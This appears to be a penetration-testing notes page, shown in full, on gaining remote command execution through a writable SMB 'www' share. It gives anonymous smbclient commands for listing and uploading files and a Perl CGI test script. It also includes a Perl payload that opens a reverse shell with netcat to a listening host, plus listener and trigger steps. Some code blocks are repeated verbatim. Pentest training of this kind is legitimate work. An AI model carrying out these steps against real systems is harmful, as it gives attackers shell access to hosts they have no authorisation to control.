

SMB www writable share
*seen also in Network → Vulnerability assessment → NetBIOS, SMB → Configuration issues → www writable share
Prerequisites
• www writable share folder available to us
root@kali:/# smbmap -H [ipAddress]
• Web server support interpreted(scripting) language
Access to the access the <writableTargetFolder> share. Inside it we should have a “rootfs” directory(SMBTARGET)
root@kali:/# smbclient \\\\81.249.228.239\\www -N #anonymous access
smb: \> recurse #enable recursion listing on smb
smb: \> ls
smb: \> recurse #disable recursion listing on smb
smb: \> mget <Target Directory to Download>
smb: \> recurse #enable recursion listing on smb
smb: \> ls
smb: \> recurse #disable recursion listing on smb
smb: \> mget <Target Directory to Download>
We have to ask to ourselves these questions:
1. Is a web server-interpreted languages we can use to our advantage? Check for these file extensions in the www share:
◇ PHP (*.php, *.php3, *.php4, *.phtml)
◇ Python (*.py)
◇ R (*.rhtml)
◇ Ruby (*.rb, *.rbw)
◇ JavaScript using Server-side JavaScript (*.ssjs, *.js)
◇ Perl via the CGI.pm module (*.cgi, *.ipl, *.pl)
To inspect one of these file we can download it locally
smb: \> get [file] #to download a file locally and inspect these files
2. Can we upload any files to this(www) directory, and how will the web server handle our files?
smb: \> smbclient \\\\[targetIp]\\www -N #anonymous access
smb: \> put [file] #to upload a file on the target
smb: \> put [file] #to upload a file on the target
the file that we will put, must be with a interpreted language. For example for perl upload a
test.pl file with:#!/usr/bin/perl
print "Content-type: text/html\n\n";
system("id");
print "Content-type: text/html\n\n";
system("id");
or in alternative to directly put a bash reverse shell
#!/usr/bin/perl
print "Content-type: text/html\n\n";
system("nc 192.168.13.18 1234 -e /bin/sh")
print "Content-type: text/html\n\n";
system("nc 192.168.13.18 1234 -e /bin/sh")
3. Check how the web server handle this script
go with the browser to the web server of the target address, to the file uploaded
4. Can we exploit that to obtain remote command execution?
If the command
id is been displayed. this mean we can also upload a reverse shell.For a complete list of reverse shells see:
◇ http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
◇ or directly on kali
root@kali:/# cd /usr/share/webshells
root@kali:/# ls
root@kali:/# ls

These scripts needs small modifications before using it.
For example for a Perl reverse shell we have to edit Ip and Port.
5. Now we have to upload the web reverse shell (On point 2 we have tested if the web server handle scripting language)
smb: \> put [file] #to upload the web server reverse shell on the target
6. Listen and wait
root@kali:/# nc -nvlp 53

7. Now we have to navigate with the browser to the file we have uploaded to trigger the web reverse shell